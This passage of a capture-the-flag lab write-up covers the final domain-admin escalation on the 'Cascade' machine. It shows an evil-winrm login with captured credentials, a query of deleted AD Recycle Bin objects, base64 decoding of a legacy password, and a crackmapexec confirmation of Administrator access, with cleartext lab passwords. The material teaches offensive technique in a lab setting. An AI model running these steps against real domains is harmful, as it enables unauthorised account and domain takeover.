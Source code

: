 # Domain admin privilege escalation

The final step is to become domain admin of the domain. First we connect using `evil-winrm`.

```sql
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ evil-winrm  -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

From here we will check the deleted AD objects, since this user has that privilege because is part of **AD Recycle Bin** group.

```sql
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

In the output we will see an interesting field.

```sql
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
```

If we decode this password we will obtain the password of the user Administrator.

```sql
┌──(root㉿kali)-[/mnt/audit]
└─# echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
```

Credentials → `Administrator:baCT3r1aN00dles`

```sql
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ crackmapexec smb 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\Administrator:baCT3r1aN00dles (Pwn3d!)
```
